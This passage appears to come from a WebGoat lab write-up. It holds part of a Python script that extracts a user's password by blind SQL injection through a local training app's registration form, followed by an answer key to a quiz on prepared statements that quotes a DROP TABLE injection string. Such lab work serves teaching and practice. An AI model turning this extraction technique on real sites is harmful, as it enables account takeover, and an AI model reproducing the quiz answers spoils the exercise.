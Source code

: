   ```py
        "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge",
        headers = {
          "Cookie": "JSESSIONID=DDQos9rvlcM7xgIGLKvJQD7DIv8qmPgIM0r0dRfX; WEBWOLFSESSION=lqEaXggkOKIAUWMRihT91pzh3L1sf_QkVqVeGvDf"
        },
        data = {
          "username_reg": inject, # vulnerable form input  
          "email_reg": "brute@force",
          "password_reg": "goodbye", 
          "confirm_password_reg": "goodbye" 
        }
      )
      
      try:
        res = json.loads(req.text)
      except:
        print('Wrong sessionID')
        return
      
      if "already exists please try to register with a different username" in res['feedback']:
        result += mask[curr]
        curr = 0
        index += 1
        print(result)
      else:
        curr += 1
        if curr == len(mask):
          print(result)
          return
      
  find_tom_pass()
  ```

  Zad. 6.
  ```
  1. What is the difference between a prepared statement and a statement?
  Solution 4: A statement has got values instead of a prepared statement
  2. Which one of the following characters is a placeholder for variables?
  Solution 3: ?
  3. How can prepared statements be faster than statements?
  Solution 2: Prepared statements are compiled once by the database management system waiting for input and are pre-compiled this way.
  4. How can a prepared statement prevent SQL-Injection?
  Solution 3: Placeholders can prevent that the users input gets attached to the SQL query resulting in a seperation of code and data.
  5. What happens if a person with malicious intent writes into a register form :Robert); DROP TABLE Students;-- that has a prepared statement?
  Solution 4: The database registers 'Robert' ); DROP TABLE Students;--'.
  ```